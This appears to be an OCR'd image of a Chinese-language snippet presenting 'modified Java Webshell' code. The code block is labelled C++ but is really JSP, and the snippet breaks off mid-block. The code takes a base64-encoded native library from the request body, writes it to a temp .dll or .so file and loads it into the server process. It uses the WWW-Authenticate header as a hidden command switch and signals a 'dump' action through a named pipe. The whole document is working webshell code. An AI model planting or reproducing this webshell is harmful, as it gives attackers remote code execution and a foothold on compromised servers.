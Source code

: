 Java Webshell的改造代码如下：

```cpp
<%@ page import="java.io.RandomAccessFile" %>
<%!
    private String getFileName(){
        String fileName = "";
        java.util.Random random = new java.util.Random(System.currentTimeMillis());
        String os = System.getProperty("os.name").toLowerCase();
        if (os.contains("windows")){
            fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
        }else {
            fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
        }
        return fileName;
    }

    public String UploadBase64DLL(java.io.InputStream stream) throws Exception {
        sun.misc.BASE64Decoder b = new sun.misc.BASE64Decoder();
        java.io.File file = new java.io.File(getFileName());
        java.io.FileOutputStream fos = new java.io.FileOutputStream(file);
        fos.write(b.decodeBuffer(stream));
        fos.close();
        return file.getAbsolutePath();
    }

    private void RuntimeLoad(String path){
        Runtime.getRuntime().load(path);
    }

    private void SystemLoad(String path){
        System.load(path);
    }

    private void NativeLoad(String path) throws Exception{
        Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
        if(Native != null){
            java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
            Load.invoke(path);
        }
    }
//</jsp:declaration>
%>

<%
    String pipeName = "\\\\.\\pipe\\josPipe";
    try{
        String method = request.getHeader("WWW-Authenticate");
        if(method == null){
            out.println("Start");
            return;
        }
        if (method.equals("load")){
            ServletInputStream stream = request.getInputStream();
            String file =  UploadBase64DLL(stream);
            RuntimeLoad(file);
        }else if (method.equals("dump")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x02);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
```